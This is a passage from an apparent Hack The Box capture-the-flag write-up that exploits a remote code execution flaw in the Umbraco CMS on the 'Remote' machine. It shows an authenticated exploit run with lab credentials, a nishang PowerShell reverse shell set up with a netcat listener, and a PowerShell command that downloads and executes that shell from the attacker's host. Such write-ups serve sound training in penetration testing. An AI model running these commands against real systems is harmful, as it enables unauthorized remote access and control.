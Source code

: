 ```bash
$ searchsploit -m aspx/webapps/49488.py
$ python 49488.py -u admin@htb.local -p baconandcheese -i "http://$TARGET" -c whoami
iis apppool\defaultapppool
```

Okay, it looks like we can exploit a remote code execution vulnerability in Umbraco.

___

## Exploitation

We will be using **nishang**'s `Invoke-PowerShellTcp.ps1` script.

```bash
$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
$ echo "" >> shell.ps1
$ echo "Invoke-PowerShellTcp -Reverse -IPAddress $(vpnip) -Port 1234" >> shell.ps1
```

Don't forget run a web server and a listener:

```bash
# On one terminal
$ python3 -m http.server 80
# On another
$ nc -lnvp 1234
```

```bash
$ python 49488.py -u admin@htb.local -p baconandcheese -i "http://$TARGET" -c "powershell.exe" -a "iex(new-object net.webclient).downloadstring('http://10.10.14.12/shell.ps1')" 2>/dev/null
```



![Desktop View](/assets/img/htb/machines/windows/easy/remote/shell.png)
